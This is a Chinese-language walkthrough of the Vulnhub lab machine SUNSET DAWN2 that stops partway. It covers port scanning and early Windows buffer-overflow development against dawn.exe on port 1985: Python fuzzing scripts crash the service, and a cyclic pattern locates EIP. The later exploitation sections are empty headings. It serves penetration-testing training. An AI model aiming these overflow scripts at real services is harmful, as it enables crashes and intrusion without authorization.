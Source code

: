 ```yaml
---
layer: article
title: Vulnhub 424 SUNSET DAWN2
tags: pentest vulnhub Walkthrough
---
```


考点：windows缓冲区溢出

靶机链接：<https://www.vulnhub.com/entry/sunset-dawn2,424/>

## 环境配置

| 名称                            | IP        |
| ------------------------------- | --------- |
| Kali Linux                      | 10.0.2.15 |
| SUNSET DAWN2                    | 10.0.2.7  |
| Windows 调试机（Windows 7 X86） | 10.0.2.14 |



## 初步打点

### 端口扫描

```bash
$ export rip=10.0.2.7
$ sudo nmap -v -A -p- $rip
Scanning localhost (10.0.2.7) [65535 ports]
Discovered open port 80/tcp on 10.0.2.7
Discovered open port 1985/tcp on 10.0.2.7
Discovered open port 1435/tcp on 10.0.2.7
PORT     STATE SERVICE   VERSION
80/tcp   open  http      Apache httpd 2.4.38 ((Debian))
| http-methods: 
|_  Supported Methods: POST OPTIONS HEAD GET
|_http-title: Site doesn't have a title (text/html).
|_http-server-header: Apache/2.4.38 (Debian)
1435/tcp open  ibm-cics?
1985/tcp open  hsrp?
2 services unrecognized despite returning data.
```

![1](F:\Users\ms\Desktop\424\1.PNG)

80端口发现可以下载个压缩包dawn.zip，解压发现dawn.exe

1435端口和10985端口通过nc连接后，均无回显，猜测是dawn.exe运行在这两个端口之一。

这个靶机应该是考windows缓冲区溢出的。而且，这个dawn.exe大概率是linux环境通过wine运行的。

### 漏洞发现

把dawn.exe复制到windows调试机，运行后，发现可输入一些字符。

```cmd
C:\Users\John>tasklist|findstr dawn
dawn.exe                      2800 Console                    1      2,232 K
C:\Users\John>netstat -ano|findstr 2800
  TCP    0.0.0.0:1985           0.0.0.0:0              LISTENING       2800
```

由此判定靶机1985端口运行的大概率是dawn.exe

使用脚本进行调试

```python
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 1985
buff = "A" * 300
nullByte = "\x00"
inputBuffer = buff + nullByte
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
s.close()
```

![2](F:\Users\ms\Desktop\424\2.PNG)

运行后，dawn.exe 停止工作，说明存在缓冲区溢出漏洞。

## 获得权限

### 本地测试

继续测试

使用Immunity Debugger 打开dawn.exe并运行

使用msf-pattern_create生成字符串

```bash
$ msf-pattern_create -l 300   
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9
```

确定位置

```python
#!/usr/bin/python2
import socket
import sys
import os
ip = "10.0.2.14"
port = 1985
buff = "Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2Ad3Ad4Ad5Ad6Ad7Ad8Ad9Ae0Ae1Ae2Ae3Ae4Ae5Ae6Ae7Ae8Ae9Af0Af1Af2Af3Af4Af5Af6Af7Af8Af9Ag0Ag1Ag2Ag3Ag4Ag5Ag6Ag7Ag8Ag9Ah0Ah1Ah2Ah3Ah4Ah5Ah6Ah7Ah8Ah9Ai0Ai1Ai2Ai3Ai4Ai5Ai6Ai7Ai8Ai9Aj0Aj1Aj2Aj3Aj4Aj5Aj6Aj7Aj8Aj9"
nullByte = "\x00"
inputBuffer = buff + nullByte
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect((ip, port))
s.send(inputBuffer)
```

![3](F:\Users\ms\Desktop\424\3.PNG)

运行后看到进程暂停，EIP为`316A4130`

### 靶机测试

## 提权
